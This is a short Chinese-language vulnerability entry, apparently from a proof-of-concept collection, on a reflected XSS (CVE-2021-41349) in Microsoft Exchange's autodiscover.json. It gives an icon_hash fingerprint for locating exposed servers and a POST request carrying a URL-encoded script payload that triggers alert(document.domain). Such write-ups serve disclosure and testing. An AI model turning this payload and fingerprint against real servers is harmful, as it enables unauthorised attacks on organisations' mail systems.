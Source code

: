 # Microsoft Exchange autodiscover.json 反射型XSS CVE-2021-41349

## 漏洞描述

Microsoft Exchange  autodiscover.json 文件中存在反射型XSS，由于其中过滤不足而导致

## 漏洞影响

<a-checkbox checked>Microsoft Exchange</a-checkbox></br>

## 网络测绘

<a-checkbox checked>icon_hash="1768726119"</a-checkbox></br>

## 漏洞复现

登录页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1637288762813-e6dfc1ae-30b5-4aae-bd47-f21c11fe820d.png)

验证POC

```python
POST /autodiscover/autodiscover.json

%3Cscript%3Ealert%28document.domain%29%3B+a=%22%3C%2Fscript%3E&x=1
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1637288842810-502b9dc4-ce91-4217-8ec2-05cc530cac38.png)